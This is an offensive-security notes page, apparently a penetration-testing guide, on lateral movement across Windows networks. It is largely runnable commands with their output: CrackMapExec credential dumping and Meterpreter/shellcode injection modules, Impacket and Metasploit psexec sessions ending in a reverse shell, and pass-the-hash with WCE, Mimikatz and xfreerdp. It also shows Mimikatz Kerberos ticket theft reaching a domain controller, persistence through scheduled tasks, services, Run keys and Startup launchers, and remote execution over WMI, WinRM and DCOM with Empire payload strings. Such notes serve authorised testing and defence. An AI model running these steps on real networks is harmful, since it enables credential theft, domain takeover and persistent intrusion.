`CrackMapExec <https://github.com/byt3bl33d3r/CrackMapExec>`_ is quite awesome tool when it comes to remote command execution. Read the `wiki <https://github.com/byt3bl33d3r/CrackMapExec/wiki>`_ 

Usage
^^^^^

::

  positional arguments:
  target                The target IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containg a list of targets

  optional arguments:
    -h, --help            show this help message and exit
    -v, --version         show program's version number and exit
    -t THREADS            Set how many concurrent threads to use (default: 100)
    -u USERNAME [USERNAME ...]  Username(s) or file(s) containing usernames
    -d DOMAIN             Domain name
    --local-auth          Authenticate locally to each target
    -p PASSWORD [PASSWORD ...]  Password(s) or file(s) containing passwords
    -H HASH [HASH ...]    NTLM hash(es) or file(s) containing NTLM hashes
    -M MODULE, --module MODULE Payload module to use
    -MC CHAIN_COMMAND, --module-chain CHAIN_COMMAND  Payload module chain command string to run
    -o MODULE_OPTION [MODULE_OPTION ...] Payload module options
    -L, --list-modules    List available modules
    --show-options        Display module options
    --verbose             Enable verbose output

  Credential Gathering:
  Options for gathering credentials

  --sam                 Dump SAM hashes from target systems
  --lsa                 Dump LSA secrets from target systems
  --ntds {vss,drsuapi}  Dump the NTDS.dit from target DCs using the specifed method
                        (drsuapi is the fastest)
  --ntds-history        Dump NTDS.dit password history
  --ntds-pwdLastSet     Shows the pwdLastSet attribute for each NTDS.dit account
  --wdigest {enable,disable}
                        Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
  Mapping/Enumeration:
  Options for Mapping/Enumerating

  --shares              Enumerate shares and access
  --uac                 Checks UAC status
  --sessions            Enumerate active sessions
  --disks               Enumerate disks
  --users               Enumerate users
  --rid-brute [MAX_RID]
                        Enumerate users by bruteforcing RID's (default: 4000)
  --pass-pol            Dump password policy
  --lusers              Enumerate logged on users
  --wmi QUERY           Issues the specified WMI query
  --wmi-namespace NAMESPACE
                        WMI Namespace (default: //./root/cimv2)

  Command Execution:
  Options for executing commands

  --exec-method {smbexec,wmiexec,atexec}
                        Method to execute the command. Ignored if in MSSQL mode (default: wmiexec)
  --force-ps32          Force the PowerShell command to run in a 32-bit process
  --no-output           Do not retrieve command output
  -x COMMAND            Execute the specified command
  -X PS_COMMAND         Execute the specified PowerShell command


Modules
^^^^^^^
::

 crackmapexec -L
 06-05-2016 14:08:03 [*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
 06-05-2016 14:08:03 [*] getgroups            Wrapper for PowerView's Get-NetGroup function
 06-05-2016 14:08:03 [*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
 06-05-2016 14:08:03 [*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
 06-05-2016 14:08:03 [*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
 06-05-2016 14:08:03 [*] getgroupmembers      Wrapper for PowerView's Get-NetGroupMember function
 06-05-2016 14:08:03 [*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
 06-05-2016 14:08:03 [*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
 06-05-2016 14:08:03 [*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
 06-05-2016 14:08:03 [*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
 06-05-2016 14:08:03 [*] getcomputers         Wrapper for PowerView's Get-NetGroup function
 06-05-2016 14:08:03 [*] KTHXBYE!

Using a module

Simply specify the module name with the -M flag:

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz
 06-05-2016 14:13:59 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

Use the -M flag to specify the module and the --show-options argument to view the module's supported options:

::
 
 #~ crackmapexec -M mimikatz --show-options
 06-05-2016 14:10:33 [*] mimikatz module options:
 COMMAND Mimikatz command to execute (default: 'sekurlsa::logonpasswords')

Using module options
Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND=privilege::debug

Impacket psexec/ smbexe/ wmiexec
--------------------------------

Impacket psexec
^^^^^^^^^^^^^^^

::

  ./psexec.py -debug Admini:Password@10.0.X.X

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies
 
  [*] Trying protocol 445/SMB...
  [*] Requesting shares on 10.0.5.180.....
  [*] Found writable share ADMIN$
  [*] Uploading file kBibbkKL.exe
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Creating service cvZN on 10.0.5.180.....
  [*] Starting service cvZN.....
  [-] Pipe not ready, aborting
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Stoping service cvZN.....
  [*] Removing service cvZN.....
  [*] Removing file kBibbkKL.exe.....

Impacket smbexec
^^^^^^^^^^^^^^^^

::

  ./smbexec.py -debug Admini:Password@10.0.5.180

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

  [+] StringBinding ncacn_np:10.0.5.180[\pipe\svcctl]
  [+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
  [!] Launching semi-interactive shell - Careful what you execute

  C:\Windows\system32>ipconfig
  [+] Executing %COMSPEC% /Q /c echo ipconfig ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

  Windows IP Configuration


  Ethernet adapter Local Area Connection:

  Connection-specific DNS Suffix  . : 
  Link-local IPv6 Address . . . . . : fe80::4546:b672:307:b488%10
  IPv4 Address. . . . . . . . . . . : 10.0.X.XX
  Subnet Mask . . . . . . . . . . . : 255.255.254.0
  Default Gateway . . . . . . . . . : 10.0.X.1

  Tunnel adapter isatap.{EB92DEE7-521B-4E14-84C2-0E9B9E96563E}:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  Tunnel adapter Local Area Connection* 11:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  C:\Windows\system32>

Impacket wmiexec
^^^^^^^^^^^^^^^^

::

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
  
  usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-debug]
                    [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                    [-dc-ip ip address]
                    target [command [command ...]]

  Executes a semi-interactive shell using Windows Management Instrumentation.

  positional arguments:
    target                [[domain/]username[:password]@]<targetName or address>
    command               command to execute at the target. If empty it will
                          launch a semi-interactive shell

  authentication:
    -hashes LMHASH:NTHASH
                          NTLM hashes, format is LMHASH:NTHASH
    -no-pass              don't ask for password (useful for -k)
    -k                    Use Kerberos authentication. Grabs credentials from
                          ccache file (KRB5CCNAME) based on target parameters.
                          If valid credentials cannot be found, it will use the
                          ones specified in the command line
    -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                          bits)
    -dc-ip ip address     IP Address of the domain controller. If ommited it use
                          the domain part (FQDN) specified in the target
                          parameter

**Example with password**

::

  wmiexec.py -debug Administrat0r:Passw0rd\!\!@10.0.5.180

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

  [*] SMBv2.1 dialect used
  [+] Target system is 10.0.5.180 and isFDQN is False
  [+] StringBinding: \\\\xxxxHBKS1739[\\PIPE\\atsvc]
  [+] StringBinding: xxxxhbks1739[49155]
  [+] StringBinding: 10.0.5.180[49155]
  [+] StringBinding chosen: ncacn_ip_tcp:10.0.5.180[49155]
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
  C:\>hostname
  xxxxhbks1739

  C:\>whoami
  xxxxhbks1739\administrat0r

  C:\>

**Example with hashes**

::

    wmiexec.py -debug -hashes xxxxxxxxxxxxxx:xxxxxxx  Administrat0r@10.0.5.180
  
Metasploit psexec
-----------------

Metasploit psexec have three methods to invoke, 

::

   msf exploit(psexec) > show targets 

   Exploit targets:

   Id  Name
   --  ----
    0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload


Target 2: Native upload
^^^^^^^^^^^^^^^^^^^^^^^

::

  msf exploit(psexec) > set target 2
  target => 2

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Uploading payload...
  [*] 10.0.5.180:445 - Created \hnFrgUVk.exe...
  [-] 10.0.5.180:445 - Service failed to start - ACCESS_DENIED
  [*] 10.0.5.180:445 - Deleting \hnFrgUVk.exe...
  [*] Exploit completed, but no session was created.


We can see that the exploit was completed however, no session was created. Also the antivirus provided an alert.

::
  
 Datei "C:\Windows\hnFrgUVk.exe" belongs to virus/spyware 'Troj/Swrort-K'.

Let's try with 

Target 1, powershell 
^^^^^^^^^^^^^^^^^^^^  

::

  msf exploit(psexec) > set smbdomain .
  smbdomain => .
  msf exploit(psexec) > set smbuser Administrat0r
  smbuser => Administrat0r
  msf exploit(psexec) > set smbpass Passw0rd!!
  smbpass => Passw0rd!!
  msf exploit(psexec) > set rhost 10.0.5.180
  rhost => 10.0.5.180
  msf exploit(psexec) > run 

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Exploit completed, but no session was created.
  msf exploit(psexec) > run 
  
  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Sending stage (957487 bytes) to 10.0.5.180
  [*] Meterpreter session 1 opened (10.11.43.116:4444 -> 10.0.5.180:64783) at 2017-02-20 16:31:41 +0530
  
  meterpreter > 

Let's try also with 

Target 3: MOF Upload
^^^^^^^^^^^^^^^^^^^^

:: 

   msf exploit(psexec) > set target 3
   target => 3

   [*] Started reverse TCP handler on 10.11.43.116:4444 
   [*] 10.0.5.180:445 - Connecting to the server...
   [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
   [*] 10.0.5.180:445 - Trying wbemexec...
   [*] 10.0.5.180:445 - Uploading Payload...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\KiaHTgBg.exe
   [*] 10.0.5.180:445 - Uploading MOF...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\wbem\mof\5SZ1WZENmHyays.MOF
   [*] Exploit completed, but no session was created.
 

Working of MSF PSexec - Native Upload
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Jonathan has already written awesome detailed blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ Working of MSF PSExec has been taken from his blog directly.

While similar in functionality to Sysinternal’s PsExec, the Metasploit Framework’s PSExec Module has a few key differences and at a high-level performs the following actions.  By default, the module takes the following actions:

* Creates a randomly-named service executable with an embedded payload
* Connects to the hidden ADMIN$ share on the remote system via SMB
* Drops malicious service executable onto the share
* Utilizes the SCM to start a randomly-named service
* Service loads the malicious code into memory and executes it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself, stopping the service and deleting the executable

There is more flexibility with the Metasploit’s PSExec in comparison to Microsoft’s tool.  For instance, the default location of the malicious service executable can be modified from the hidden ADMIN$ to C$ or even another shared folder on the target machine.  Names of the service executable and associated service can also be changed under the module’s Advanced settings.

However, the most important modification that a penetration tester can make is creating and linking to a custom service executable instead of relying on the executable templates provided by the Metasploit Framework.  Failure to do so greatly increases the risk of detection by the target system’s anti-virus solution once the executable is dropped to disk. 

Working of MSF PSExec - Powershell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Details taken directly from Jonathan blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_

At a high-level, the psexec_psh module works as follows:

* Embed stager into a PowerShell script that will inject the payload into memory
* Compress and Base64 encode the PowerShell script
* Wrap encoded script into a PowerShell one-liner that decodes and deflates
* Connect to ADMIN$ share on target machine over SMB and run the one-liner
* Embedded script is passed into memory via PowerShell’s Invoke-Expression (IEX)
* Script creates a new service and passes stager payload into it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself by tearing down the service


Sysinternals psexec
-------------------

Microsoft Sysinternal tool psexec can be downloaded from `PsExec <https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx>`_. Mark has written a good article on how psexec works is `PsExec Working <http://windowsitpro.com/systems-management/psexec>`_.

::

 psexec.exe \\Computername -u DomainName\username -p password <command>
 command can be cmd.exe/ ipconfig etc.

Working of Microsoft PSExec
^^^^^^^^^^^^^^^^^^^^^^^^^^^

The below details are taken from Jonathan blog on `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ 

At a high-level, the PsExec program works as follows:

* Connects to the hidden ADMIN$ share (mapping to the C:\Windows folder) on the remote system via SMB
* Utilizes the Service Control Manager (SCM) to start the PsExecsvc service and enable a named pipe on the remote system
* Input/output redirection of the console is achieved via the created named pipe

Sysinternal PSExec with hashes
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sysinternal PSExec is a tool built to assist system administrators. In order to use PsExec with captured hashes, we would require Windows Credential Editor (WCE).  This would require us to drop another executable to disk and risk detection. Fuzzynop has provided a tutorial `Pass the Hash without Metasploit <http://fuzzynop.blogspot.in/2012/09/pass-hash-without-metasploit.html>`_ 

* Change the current NTLM credentials

 ::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash>

 Example:

 ::

  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.

  Changing NTLM credentials of current logon session (00024E1Bh) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!


  C:\Users\test> 

 
* Run PSExec normally

 ::

  psexec \\remotecomputer <commandname>

 If you omit a user name, the process will run in the context of your account on the remote system, but will not have access to network resources (because it is impersonating). Specify a valid user name in the Domain\User syntax if the remote process requires access to network resources or to run in a different account. Since, we are omiting the username, it would run in the context of the current username ( The one we have changed with the help of WCE )


Task Scheduler
--------------

If you are the administrator of the remote machine and using runas /netonly, we can utilize AT to run commands remotely. Using AT, a command to be run at designated time(s) as SYSTEM.

Examples
^^^^^^^^

::

 AT \\REMOTECOMPUTERNAME 12:34 "command to run"

::

 AT \\REMOTECOMPUTERNAME 12:34 cmd.exe \c "command to run"
 
 "command to run" can be web-delivery string or powershell empire string.

If we need to delete the AT jobs, we can use

::

 AT \\REMOTECOMPUTERNAME id /delete /yes

However, sometimes doing it remotely, we need to figure out the time of the remote computer, we can utilize NET TIME

::

 NET TIME \\REMOTECOMPUTERNAME

Scheduled Tasks
---------------

`Schtasks <https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx>`_ Schedules commands and programs to run periodically or at a specific time. Adds and removes tasks from the schedule, starts and stops tasks on demand, and displays and changes scheduled tasks. Schtasks replaces At.exe, a tool included in previous versions of Windows. Although At.exe is still included in the Windows Server 2003 family, schtasks is the recommended command-line task scheduling tool.

::

 schtasks /create /sc <ScheduleType> /tn <TaskName> /tr <TaskRun> [/s <Computer> [/u [<Domain>\]<User> [/p <Password>]]] [/ru {[<Domain>\]<User> | System}] [/rp <Password>] [/mo <Modifier>] [/d <Day>[,<Day>...] | *] [/m <Month>[,<Month>...]] [/i <IdleTime>] [/st <StartTime>] [/ri <Interval>] [{/et <EndTime> | /du <Duration>} [/k]] [/sd <StartDate>] [/ed <EndDate>] [/it] [/z] [/f]

 /sc <ScheduleType>               : Specifies the schedule type. Valid values are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE.
 /tn <TaskName>                   : Specifies a name for the task. 
 /tr <TaskRun>                    : Specifies the program or command that the task runs. Type the fully qualified path and file name of an executable file, script file, or batch file. If you omit the path, schtasks assumes that the file is in the SystemRoot\System32 directory.
 /s <Computer>                    : Schedules a task on the specified remote computer. Type the name or IP address of a remote computer (with or without backslashes). The default is the local computer.
 /u [<Domain>\]<User>             : Runs this command with the permissions of the specified user account. The default is the permissions of the current user of the local computer. 
 /p <Password>                    : Provides the password for the user account specified in the /u parameter. If you use the /u parameter, but omit the /p parameter or the password argument, schtasks prompts you for a password and obscures the text you type
 /ru {[<Domain>\]<User> | System} : Runs the task with permissions of the specified user account. By default, the task runs with the permissions of the current user of the local computer, or with the permission of the user specified by the /u parameter, if one is included. The /ru parameter is valid when scheduling tasks on local or remote computers.
 /rp <Password>                   : Provides the password for the user account that is specified in the /ru parameter. If you omit this parameter when specifying a user account, SchTasks.exe prompts you for the password and obscures the text you type. Do not use the /rp parameter for tasks run with System account credentials (/ru System). The System account does not have a password and SchTasks.exe does not prompt for one.


Examples
^^^^^^^^

* Create new task and execute it

 ::

   schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
   schtasks /run /tn foobar /S host

* Delete the task after it is executed

 ::

  schtasks /F /delete /tn foobar /S host


Service Controller (SC)
-----------------------

Communicates with the Service Controller and installed services. SC.exe retrieves and sets control information about services. Armitage Hacker has mentioned this at his blog `Lateral Movement with High Latency <https://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/>`_ 

Create a new service
^^^^^^^^^^^^^^^^^^^^

Creat a new service named foobar

::

  sc \\host create foobar binpath= “c:\windows\temp\foobar.exe”

Start the service
^^^^^^^^^^^^^^^^^

::

  sc \\host start foobar


The sc command requires an executable that responds to Service Control Manager commands. If you do not provide such an executable, your program will run, and then immediately exit. 

Delete the service
^^^^^^^^^^^^^^^^^^

Delete the service after it runs 

::

  sc \\host delete foobar

Remote Registry
---------------

A command to be run or DLL to be loaded when specific events occur, such as boot or login or process execution, as active user or SYSTEM.

**Examples**

Add a entry
^^^^^^^^^^^

::

 REG ADD \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry /t REG_SZ /d "command to run"
 
Command will run every time a user logs in as the user.

Query the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG QUERY \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry

Delete the remote registry
^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 REG DELETE \\REMOTECOMPUTERNAME\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v myentry


Remote File Access
------------------

We can copy a launcher.bat file with powershell empire and drop it Startup folder, so that it executes every time a user logs in as a user.

Example
^^^^^^^

::

 xcopy executabletorun.exe "\\REMOTECOMPUTERNAME\C$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\launcher.bat"

WinRM
-----

Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilizing WMI, it can be thought of as an HTTP based API for WMI. WinRM will listen on one of two ports: 5985/tcp (HTTP) and 5986/tcp (HTTPS)

If one of these ports is open, WinRM is configured and you can try entering a remote session.

Enabling PS-Remoting
^^^^^^^^^^^^^^^^^^^^
 
Configure the remote machine to work with WinRM. We need to run the below command from elevated powershell prompt 

::

  PS C:\Windows\system32> Enable-PSRemoting -Force
  WinRM already is set up to receive requests on this machine.
  WinRM has been updated for remote management.
  Created a WinRM listener on HTTP://* to accept WS-Man requests to any IP on this machine.
  WinRM firewall exception enabled.

Testing the WinRM Connection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use the Test-WSMan function to check if target is configured for WinRM. It should return information returned about the protocol version and wsmid

:: 

  PS C:\> Test-WSMan XXXX-APPS03.example.com
  wsmid           : http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd
  ProtocolVersion : http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd
  ProductVendor   : Microsoft Corporation
  ProductVersion  : OS: 0.0.0 SP: 0.0 Stack: 2.0

PowerShell Invoke-Command
^^^^^^^^^^^^^^^^^^^^^^^^^ 

Execute commands using Powershell Invoke-Command on the target over WinRM. 

:: 

  PS C:\> Invoke-Command -ComputerName XXXX-APPS03.xxx.example.com -ScriptBlock {ipconfig /all}

  Windows IP Configuration

   Host Name . . . . . . . . . . . . : XXXX-Apps03
   Primary Dns Suffix  . . . . . . . : xxx.example.com
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : xxx.example.com
                                       example.com

Interactive PowerShell session
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  PS C:\> Enter-PSSession -ComputerName XXXX-APPS03.xxx.example.com
  [XXXX-APPS03.xxx.example.com]: PS C:\Users\dummyuser\Documents> whoami
  example.com\dummyuser

The above commands are executed using runas /netonly if you want to run it with the credentials we can use 

:: 

 -credential domainname\username switch

Disable Powershell Remoting
^^^^^^^^^^^^^^^^^^^^^^^^^^^

Also, if you want to disable the psremoting/ WinRM, you can utilize `Disable-PSRemoting <https://msdn.microsoft.com/en-us/powershell/reference/4.0/microsoft.powershell.core/disable-psremoting>`_ . However, if you get

::

 PS C:\Windows\system32> Disable-PSRemoting
 WARNING: Disabling the session configurations does not undo all the changes made by the Enable-PSRemoting or
 Enable-PSSessionConfiguration cmdlet. You might have to manually undo the changes by following these steps.
     1. Stop and disable the WinRM service.
     2. Delete the listener that accepts requests on any IP address.
     3. Disable the firewall exceptions for WS-Management communications.
     4. Restore the value of the LocalAccountTokenFilterPolicy to 0, which restricts remote access to members of the Administrators group on the computer.

then follow the `How to revert changes made by Enable-PSRemoting? <https://blogs.technet.microsoft.com/bshukla/2011/04/27/how-to-revert-changes-made-by-enable-psremoting/>`_

WMI
---

As per the technet article `Windows Management Instrumentation <https://msdn.microsoft.com/en-us/library/aa394582(v=vs.85).aspx>`_ (WMI) is the infrastructure for management data and operations on Windows-based operating systems. You can write WMI scripts or applications to automate administrative tasks on remote computers.

Local code execution
^^^^^^^^^^^^^^^^^^^^

WMI Process Create: The Win32_Process class can be called via WMI to query, modify, terminate, and create running processes.

::
  
  wmic path win32_process call create "calc.exe"
  Executing (win32_process)->create()
  Method execution successful.
  Out Paramteres:
  instance of __PARAMETERS
  {
        ProcessId = 2616;
        ReturnValue = 0;
  };

The command returns the ProcessID and the ReturnValue (0 abcning no errors)

Remote code execution
^^^^^^^^^^^^^^^^^^^^^

We can use runas command to authenticate as a different user and then execute commands using wmic or use

::

  wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"

instead of computername, we can specify textfile containing computernames and specify using wmic /node:@textfile

Refer Rop-Nop blog `Part3: Wmi and winrm <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_

DCOM 
----

The below is as per my understanding (I might be wrong), if so, please do correct me. After reading `Lateral Movement Using the MMC20.Application COM Object <https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/>`_ and `Lateral Movement Via DCOM Round 2 <https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/>`_ I believe there are three ways to do lateral movement by using DCOM

DCOM applications via MMC Application Class (MMC20.Application)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This COM object allows you to script components of MMC snap-in operations. there is a method named “ExecuteShellCommand” under Document.ActiveView.

::

  PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
  PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)

For Empire

::

  $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

Tanoy has written a simple wrapper/ function `Invoke-MMC20RCE.ps1 <https://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1>`_ which might be useful.

DCOM via ShellExecute
^^^^^^^^^^^^^^^^^^^^^

::

  $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $item = $obj.Item()
  $item.Document.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc

DCOM via ShellBrowserWindow
^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. Note ::  Windows 10 Only, the object doesn't exists in Windows 7

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  $obj.Application.ShellExecute("cmd.exe","/c calc.exe","C:\windows\system32",$null,0)
  ^ The above should run a calc


All the above three method, assumes that either you are running the commands as administrator of the remote machine. And you have achieved it either by using runas /netonly or logging in as that user.


While executing the above if you get the below error, it means, we do not have access to execute object remotely which results in “Access Denied”:

::

  $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"IPAddress")
  $obj = [System.Activator]::CreateInstance($com)
  Exception calling "CreateInstance" with "1" arguement(s) "Retrieving the COM class factory for remote component with CLSID {} from machine IPAddress failed due to the following error 80070005.

  At line:1 char:1
  + $obj = [System.Activator]::CreateInstance($com)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    +CategoryInfo             : NotSpecified: (:), MethodInvocationException
    +FullyQualifiedErrorID    : UnauthorizedAccessException


Mimikatz PTH/ PTT
-----------------

If we do not have plaintext credentials, we can use NTLM hashes to get a shell

Pass the Hash
^^^^^^^^^^^^^

Using a technique called Overpass-the-Hash we can take the NTLM hash and use it to obtain a Ticket Granting Ticket (TGT) via Kerberos\\ Active Directory. With a TGT you can masquerade as the administrative user and access any domain resource that admin user has access to. 

::

  Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”

A new command prompt session opens. This new command prompt injected Admin user credentials into it!

This can be verified by checking 
 
* If we have access to the C drive of the remote machine

 ::

  dir \\remote-machine\c$

* Inspect tickets in Overpass-the-hash command prompt: From the new command prompt that opened from the Overpass-the-hash attack, execute the following:

 :: 

  klist

We should be able to see the ticket of the admin user.
 

Pass the ticket
^^^^^^^^^^^^^^^

Let's assume, we got credentials of Local Admin A, by which we can login in to the machine on which Domain Admin is logged on. We would utilize pass the ticket for this

* Harvest Credentials

* Execute Mimikatz against Admin-PC ( on which domain admin is logged on )

 From the new command prompt, running in the context of admin user, go to the part of the filesystem where Mimikatz is located from that library. Run the following commands:

 ::

   xcopy mimikatz \\admin-pc\c$\temp
  
 Next, execute MimiKatz remotely to export all Kerberos tickets from Admin-PC:

 ::
   
   psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug”   “sekurlsa::tickets /export” ^& “exit”)

 Copy these tickets back to Victim-PC:

 ::

   xcopy \\admin-pc\c$\temp c:\temp\tickets


 We successfully executed Mimikatz remotely, exporting all Kerberos tickets from Admin-PC. We copied back the results to Victim-PC, and now has one of the Domain Admin credentials without having to exploit his computer!

* Locate the Domain Admin user TGT
    
 Locate the kirbi files which are not Domain Admin user (i.e. “ADMIN-PC$”). Delete those and keep the Domain Admin user tickets.  

* Pass-the-Ticket

 We can pass the Domain Admin User tickets, literally, into memory and use them to gain access to resources as if you were Domain Admin. The attacker is ready to import them into Victim-PC’s memory, to get the credentials to access sensitive resources.

 From an elevated command prompt, where Mimikatz is located on the filesystem, execute the following:

 ::
        
   mimikatz.exe “privilege::debug” “kerberos::ptt c:\temp\tickets” “exit”

 Ensure that the DomainAdminUser@krbtgt-Domainname tickets were successfully imported. Now, let’s validate that the right tickets are in the command prompt session.

* Validate the ticket was imported

 Execute the following in the same elevated command prompt:

 :: 

   klist

 The attacker now successfully imported the harvested ticket into the session, and will now leverage their new privilege and access to access the domain controller’s C drive

* Access contents of dc1\c$ with DomainAdminUser credential

 Execute the following in the same command prompt to which the tickets were just imported.

 ::

    dir \\dc1\c$

 The attacker is now, for all intents and purposes, DomainAdminUser, in the digital world. Only administrators should be able to access the root of the domain controller. The attacker is using legitimate credentials, can access legitimate resources and executing legitimate executables.


Both Mimikatz PTH, PTT has been taken from the Microsoft `Advanced Threat Analytics Attack Simulation Playbook <https://gallery.technet.microsoft.com/Advanced-Threat-Analytics-8b0a86bc>`_

xfreerdp/ Remote Desktop
------------------------

rdesktop
^^^^^^^^

::

  rdesktop IPAddress

Pass the Hash with Remote Desktop
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have a hash of a user, we can use xfreerdp to have remote desktop

::

  xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

